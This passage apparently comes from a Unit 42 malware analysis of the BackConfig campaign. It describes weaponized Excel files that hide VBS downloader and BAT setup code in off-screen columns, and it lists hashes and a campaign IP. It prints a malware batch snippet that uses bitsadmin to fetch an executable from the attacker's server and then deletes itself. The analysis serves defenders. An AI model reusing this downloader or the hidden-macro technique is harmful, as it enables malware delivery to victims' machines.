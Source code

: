 As the PHP webpages did not exist at the time of writing, Unit 42 cannot prove the XLS file be3f12b... was hosted at the URL listed in row 1 of Table 3 above. However, because of the following points, we have high confidence in the campaign relationship between the two.



AutoFocus and VirusTotal first processed the XLS file be3f12b... on October 25th, 2019
VirusTotal processed the nsaimmigration... URL on the same day
A specific HTTP GET request URL using the notation nphp_registration_form.php?r= was processed in VirusTotal on the same day, and has relations to http://185.203.119[.]184/fin_div/session, which matches the IP address and URL structure in the VBS code dropped by the XLS be3f12b....
The name of the PHP webpage nphp_registration_form.php relates to the filename of the XLS.



The VBA macro code in the XLS file be3f12b... differed somewhat from that of the samples of the previous years. Instead of directly storing encoded EXE files or running batch shell commands directly from the VBA code itself, it retrieved the content from hidden columns in the Excel sheet, starting at column 27 or “AA”, which is likely to be off-screen for most people. Once the font colour was changed, the “setup” batch code component as per previous variants, and the new Visual Basic Script (VBS) downloader component were revealed in columns AA and AB, respectively, as shown in figure 5 below.
Figure 5. VBS downloader and BAT setup file revealed in the XLS sheet.
Macro VBA code in the XLS parses the content of the two columns line by line writing the contents to their respective files on disk and executing them following the same process flow as described below in Figure 6.
2019 Milestone: BITS and ZIPs
A more recent weaponized XLS file (SHA256: 021b030981a6db1ec90ccbd6d20ee66b554b7d8c611476e63426a9288d5ce68b) was analyzed by WildFire on November 15th, 2019 and exposed some new techniques. On this occasion, the VBA macro code contained a decimal-encoded ZIP file of only 1,062 bytes in size. Inside the ZIP archive were two text files that would be decompressed to a folder driverkit. One file, driverkit.bat, is the “setup” BAT file already discussed in this report and listed in the appendix section. The other file, Winmgt.txt, is an adaptation of the VBS downloaded also described in this report. However, instead of a direct HTTP download using an MSXML DOM object, this version writes the following contents to Winmgt_Drive.bat, which is executed by a third scheduled task created by the “setup” BAT file.





echo off
bitsadmin /transfer Microsoft_Update /download /priority high 
http://185.203.119[.]184/winmgt/winmgt.exe 
%USERPROFILE%\Adobe\Driver\pdf\winmgt.exe
del %0




123456

echo offbitsadmin /transfer Microsoft_Update /download /priority high http://185.203.119[.]184/winmgt/winmgt.exe %USERPROFILE%\Adobe\Driver\pdf\winmgt.exe del %0






2020 Milestone: Fine Tuning
The following execution flow diagram is based on one of the most recent weaponized documents Unit 42 has seen Invoice.xls (SHA256: 8892279f3d87bcd44d8f9ac1af7e6da0cfc7cf1731b531056e24e98510bea83c; first seen 2020-01-15).
The infection process consists of multiple components as just described. The “setup” batch (BAT) file coordinates much of the infection process of the BackConfig plug-in loader once the VBA has written it to disk and executed it.
Figure 6. Execution flow of BackConfig malware
The numbered bullet list below describes Figure 6.
